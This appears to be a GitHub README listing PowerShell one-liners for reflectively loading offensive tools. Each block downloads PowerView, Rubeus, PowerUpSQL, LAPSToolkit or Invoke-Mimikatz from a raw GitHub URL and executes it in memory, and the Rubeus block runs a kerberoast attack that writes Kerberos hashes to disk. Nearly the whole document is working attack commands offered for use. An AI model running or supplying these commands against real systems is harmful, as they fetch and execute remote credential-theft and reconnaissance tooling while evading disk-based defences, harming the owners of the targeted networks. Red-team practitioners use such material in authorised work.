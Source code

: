 # Reflective loading tools

PowerView
```powershell
(new-object system.net.webclient).downloadstring('https://raw.githubusercontent.com/wez3/reflective-loading/main/PowerView.ps1') | IEX
```

Rubeus
```powershell
$data = (New-Object System.Net.WebClient).DownloadData('https://raw.githubusercontent.com/wez3/reflective-loading/main/Rubeus.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[Rubeus.Program]::Main("kerberoast /outfile:C:\temp\hashes.txt".Split())
```
PowerUpSQL
```powershell
(new-object system.net.webclient).downloadstring('https://raw.githubusercontent.com/wez3/reflective-loading/main/PowerUpSQL.ps1') | IEX
```

LAPSToolkit
```powershell
(new-object system.net.webclient).downloadstring('https://raw.githubusercontent.com/wez3/reflective-loading/main/LAPSToolkit.ps1') | IEX
```

Invoke-Mimikatz
```powershell
(new-object system.net.webclient).downloadstring('https://raw.githubusercontent.com/wez3/reflective-loading/main/Invoke-Mimikatz.ps1') | IEX
```
